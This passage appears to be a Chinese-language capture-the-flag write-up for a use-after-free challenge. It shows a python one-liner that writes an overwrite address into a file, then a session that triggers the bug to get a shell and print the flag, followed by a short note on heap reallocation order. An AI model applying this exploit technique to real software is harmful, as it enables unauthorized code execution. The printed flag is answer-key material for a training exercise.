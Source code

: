 > uaf@ubuntu:~$ python -c &#8220;print &#8216;\x68\x15\x40\x00\x00\x00\x00\x00&#8242;&#8221; > /tmp/uafpoc
  
> uaf@ubuntu:~$ ./uaf 24 &#8220;/tmp/uafpoc&#8221;
  
> 1. use
  
> 2. after
  
> 3. free
  
> 3
  
> 1. use
  
> 2. after
  
> 3. free
  
> 2
  
> your data is allocated
  
> 1. use
  
> 2. after
  
> 3. free
  
> 2
  
> your data is allocated
  
> 1. use
  
> 2. after
  
> 3. free
  
> 1
  
> $ cat flag
  
> yay\_f1ag\_aft3r_pwning

这里需要注意下free的顺序是先free的m，后free的w，因此在分配内存的时候优先分配到后释放的w,因此需要先申请一次空间，将w分配出去，再开一次，就能分配到m了

最终的flag为：

yay\_f1ag\_aft3r_pwning